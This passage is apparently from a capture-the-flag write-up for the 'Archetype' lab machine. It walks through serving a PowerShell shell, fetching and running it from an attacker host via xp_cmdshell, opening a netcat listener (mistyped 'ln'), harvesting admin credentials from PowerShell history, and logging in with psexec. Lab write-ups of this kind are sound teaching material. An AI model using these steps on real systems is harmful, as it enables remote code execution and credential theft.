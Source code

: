 with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```
Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".

Then download that shell in SQL with the following command:
```sql
xp_cmdshell "powershell "IEX (New-Object
Net.WebClient).DownloadString(\"http://YOUR IP/shell.ps1\");"
```

#### netcat in listening mode
To have netcat in listening mode you must execute:
![Netcat listering](netcat-listering.png)
```shell
ln -lvnp 443
```
{{< admonition type=tip title="Tip" open=true >}}
If you have a firewall, you must disable it or add rules for ports 443 and 80 with the commands:

```shell
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```
{{< /admonition >}}
Now you can continue in the type of connection you chose.

### User flag
The user (ARCHETYPE/sql_svc) banner is on the desktop at home.

## Privilege Escalation
To obtain the administrator credentials we will exploit the history or log of the powershell this is located in the user's home in the path: ```C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```

To see the content of the file we execute:
```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Root flag
Login with administrator user with [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py).

```shell
python3 psexec.py administrator@10.10.10.27
Impacket - Copyright SecureAuth Corpotation

Password: 

[*] Requesting shares on 10.10.10.27......
[*] Found writable share ADMIN$
[*] Uploading file uTkahtBM.exe
[*] Opening SVCManager on 10.10.10.27......
[*] Creating service uwOG on 10.10.10.27......
[*] Starting service uwOG......
[!] Press help for extra shel commands

```